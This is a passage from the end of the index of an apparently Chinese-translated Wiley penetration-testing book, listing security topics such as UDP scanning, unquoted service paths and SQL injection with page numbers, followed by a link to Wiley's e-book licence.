    *   WiFite，159
    *   YASCA，157
    *   `traceroute` 命令，50–51
    *   trade secrets，37
    *   传输软件和硬件，15–16
    *   `trorojans`，126
    *   代理，185
    *   双因子认证 (2FA)，200

## U

*   UDP
    *   连接扫描，143
    *   主机扫描，144
    *   端口扫描，146
    *   通过 PXE 的无人值，121
    *   不可用系统报告，207, 248
    *   后门工具，234
    *   不必要的服务
        *   禁用，202, 208, 211, 246
        *   卸载，201
    *   未加引号的服务路径
        *   描述，122
        *   权限提升攻击，134, 233
    *   无响应服务器报告，37
    *   不安全的编码实践，118–119
    *   不安全的文件和文件夹权限，122
    *   不安全的服务，119
    *   脚本中的 until 循环，170
    *   内核漏洞更新，122
    *   升级
        *   密码套，247
        *   销售点终端系统，83
        *   shell，133, 233
    *   紧急性因素，99–101
    *   URL 重定向，209, 247
    *   USB 密钥遗留，96–97
    *   用户账户
        *   漏洞持久化，126
        *   加固，201
        *   失效，223
*   SQL 注入攻击中的用户输入，200–201

## V

*   脚本中的变量，170–172
*   厂商代表，205
*   详细错误信息，118
*   版本号
    *   `nmap` 实用，145
    *   操作系统，55
*   虚拟机 (VM) 逸逸，123


# **Wiley 终端用户许可协议**

访问 `www.wiley.com/go/eula` 以访问 Wiley 的电子书用户许可协议。

